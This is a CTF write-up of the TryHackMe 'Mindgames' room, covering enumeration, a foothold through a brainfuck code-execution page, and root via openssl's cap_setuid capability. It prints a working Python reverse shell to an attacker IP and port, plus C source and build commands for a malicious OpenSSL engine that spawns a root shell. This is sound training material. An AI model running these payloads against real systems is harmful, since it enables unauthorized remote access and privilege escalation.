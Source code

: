 ```yaml
---
title: "TryHackMe - Mindgames"
author: Nasrallah
description: ""
date: 2023-01-11 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, brainfuck, capability]
img_path: /assets/img/tryhackme/mindgames
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Mindgames](https://tryhackme.com/room/mindgames) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.186.235                                                                                                                            
Host is up (0.13s latency).                                                                                                                                   
Not shown: 998 closed tcp ports (reset)                                                                                                                       
PORT   STATE SERVICE VERSION                                                                                                                                  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                             
| ssh-hostkey:                                                                                                                                                
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)                                                                                                
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)                                                                                               
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)                                                                                             
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)                                                                                
|_http-title: Mindgames.                                                                                                                                      
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
```

We found two ports, 22/tcp running OpenSSH and 80/tcp running a Goland http server.

### Web

Let's navigate to the web page.

![](1.png)

In this page we see some weird text, from my experience i can tell it's brainfuck programming language.

At the bottom of the page we find a section where we can execute brainfuck code.

![](2.png)

## **Foothold**

We can use this feature to give the page a reverse shell code in brainfuck and get a foothold.

We can use [dcode.fr](https://www.dcode.fr/brainfuck-language) to switch a python reverse shell code to brainfuck code.

I tried multiple python scripts but the following script is the one that worked for me.

```python
import os,pty,socket;s=socket.socket();s.connect(("10.11.14.124",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```

![](3.png)

Now setup a listener and run the reverse shell on the web page.

![](4.png)

## **Privilege Escalation**

After we the shell, i run linpeas and found the following:

![](5.png)

We found `openssl` with the capability `cap_setuid+ep`.

I googled that and found this [article](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/) walking through how to exploit this capability to escalate privileges.

First we create a .c file with the following content.

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Now we compile the c code using the following commands:

 - `gcc -fPIC -o exploit.o -c exploit.c`

 - `gcc -shared -o exploit.so -lcrypto exploit.o`


Next we upload the `exploit.so` to our target machine.

![](6.png)

We run the command `openssl req -engine ./exploit.so` to get a root shell.

![](7.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
